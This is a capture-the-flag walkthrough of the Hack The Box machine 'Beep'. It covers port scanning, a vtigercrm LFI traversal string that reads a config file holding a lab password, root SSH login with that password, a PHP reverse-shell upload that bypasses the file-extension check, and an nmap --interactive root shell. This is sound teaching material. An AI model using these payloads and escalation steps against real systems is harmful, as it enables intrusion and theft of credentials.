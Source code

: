 ```yaml
---
title:     "Hack The Box - Beep"
tags: [linux,easy,setuid,cve,lfi,file-upload-vuln]
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/1.png)

We are going to pwn Beep from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/5>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results
```bash
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
878/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt


22/tcp    open   ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device|PBX|WAP|printer|specialized
Running (JUST GUESSING): Linux 2.6.X|2.4.X (95%), Linksys embedded (95%), Osmosys embedded (94%), HP embedded (94%), Enterasys embedded (94%), Riverbed RiOS (93%), Gemtek embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:linux:linux_kernel:2.6.18 cpe:/h:linksys:wrv54g cpe:/o:linux:linux_kernel:2.4.32 cpe:/h:enterasys:ap3620 cpe:/o:riverbed:rios cpe:/h:gemtek:p360
Aggressive OS guesses: Linux 2.6.9 - 2.6.30 (95%), Linux 2.6.27 (likely embedded) (95%), Linux 2.6.18 (95%), Linux 2.6.20-1 (Fedora Core 5) (95%), Linux 2.6.30 (95%), Linux 2.6.5 (Fedora Core 2) (95%), Linux 2.6.5 - 2.6.12 (95%), Elastix PBX (Linux 2.6.18) (95%), Linksys WRV54G WAP (95%), Linux 2.6.27 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host:  beep.localdomain
80/tcp    open   http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open   pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS EXPIRE(NEVER) APOP UIDL RESP-CODES PIPELINING AUTH-RESP-CODE TOP LOGIN-DELAY(0) IMPLEMENTATION(Cyrus POP3 server v2) USER
111/tcp   open   rpcbind    2 (RPC #100000)
143/tcp   open   imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ANNOTATEMORE ID ATOMIC OK LISTEXT URLAUTHA0001 Completed QUOTA IMAP4rev1 LIST-SUBSCRIBED SORT LITERAL+ X-NETSCAPE RIGHTS=kxte MAILBOX-REFERRALS CONDSTORE IMAP4 UIDPLUS IDLE SORT=MODSEQ MULTIAPPEND THREAD=ORDEREDSUBJECT THREAD=REFERENCES UNSELECT CHILDREN BINARY STARTTLS NAMESPACE NO RENAME ACL CATENATE
443/tcp   open   ssl/https?
|_ssl-date: 2019-12-01T13:40:51+00:00; +1h00m15s from scanner time.
878/tcp   open   status     1 (RPC #100024)
993/tcp   open   ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open   pop3       Cyrus pop3d
3306/tcp  open   mysql      MySQL (unauthorized)
4190/tcp  open   sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open   upnotifyp?
4559/tcp  open   hylafax    HylaFAX 4.3.10
5038/tcp  open   asterisk   Asterisk Call Manager 1.1
10000/tcp open   http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/1%OT=22%CT=5%CU=35487%PV=Y%DS=2%DC=T%G=Y%TM=5DE3B55
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=CC%GCD=1%ISR=CC%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11N
OS:W7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R
OS:=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%
OS:Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

## HTTP Enumeration

While checking the webpage , it is an ``Elastix Login page``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/2.png)

So I searched in Searchsploit but there is more exploit and I cant find any version of it in the webpage 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/3.png)

Lets start randomly and this one looks interesting 

> https://www.exploit-db.com/exploits/37637


``` /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action ```

This is an LFI exploit and it worked!
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/4.png)

And I found some credentials

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/5.png)

``` admin:jEhdIekWmdjE ```

Using the same LFI let's see ``/etc/password`` and found an user ``fanis``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/6.png)

We know the user so I tried to see the user flag
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/7.png)
And yeah, I got the user flag!!

Now Lets try to log in and see what in ``Elastix``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/8.png)
I cant find any vulnerabilities or any loop holes.

## Method 1 of getting Root

I checked if there is any other vulnerability available on other ports and It doesnt look like any so I just tried login with the creds we found from the LFI in ssh ```root:jEhdIekWmdjE```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/9.png)

We are root!

## Method 2 (File Upload Vulnerability)

From the LFI I came to know there is another login page ``/vtigercrm`` it is an ``vtigerCRM``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/10.png)

I tried login with the same creds we found before ``admin:jEhdIekWmdjE``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/11.png)
It looks like they use same creds for all xD

I found we can change the logo so we can try to upload our payload.
It is in Settings -> Company Details
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/12.png)

I uploaded my reverse shell as ``shell.php.jpg`` and intercept it with burp and then change the extension back to ``shell.php``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/13.png)

I changed the extension to ``.php`` and forwarded. 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/14.png)

I check the source code to see the location of the logo.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/15.png)
It is in ``/test/logo/``

So listening on my machine, I got the shell<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/16.png)

## Privilege Escalation

While checking ``sudo -l``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/17.png)

User ``asterisk`` can run these without root permission so i chose ``nmap`` from this.

I searched in GTFOBins

><https://gtfobins.github.io/gtfobins/nmap/>

So I tried it

```
nmap --interactive
nmap> !sh
```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/18.png)

I'm Root now!


